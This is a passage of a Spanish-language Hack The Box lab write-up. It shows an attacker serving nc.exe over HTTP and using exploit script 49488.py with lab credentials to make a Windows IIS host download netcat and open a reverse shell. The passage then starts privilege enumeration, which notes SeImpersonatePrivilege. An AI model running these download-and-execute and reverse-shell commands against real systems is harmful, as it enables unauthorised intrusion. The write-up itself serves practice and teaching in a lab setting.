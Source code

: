 Nos `copiamos` el `binario` al directorio actual de trabajo

```
# cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
```

Nos `montamos` un `servidor http` en este directorio

```
# python -m http.server 80
```

Nos ponemos en `escucha` con `netcat`

```
# nc -nlvp 9993
```

Nos `descargamos` el `netcat` en la máquina víctima

```
# python3 49488.py -u admin@htb.local -p baconandcheese -i http://10.129.230.172 -c curl.exe -a '-o C:/Windows/Temp/nc.exe http://10.10.16.35/nc.exe'
```

Nos `mandamos` una `shell` a nuestro equipo

```
# python3 49488.py -u admin@htb.local -p baconandcheese -i http://10.129.230.172 -c C:/Windows/Temp/nc.exe -a '-e cmd 10.10.16.35 9993'
```

`Recibimos` la `shell`

```
# nc -nlvp 9993  
listening on [any] 9993 ...
connect to [10.10.16.35] from (UNKNOWN) [10.129.230.172] 49881
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
```
## Privilege Escalation (First Method)

`Listamos privilegios` y `grupos` de nuestro usuario y vemos que el privilegio `SeImpersonatePrivilege` está habilitado

```
c:\Windows\Temp\Privesc>whoami /all
whoami /all

USER INFORMATION
----------------

User Name                  SID                                                          
========================== =============================================================
iis apppool\defaultapppool S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
```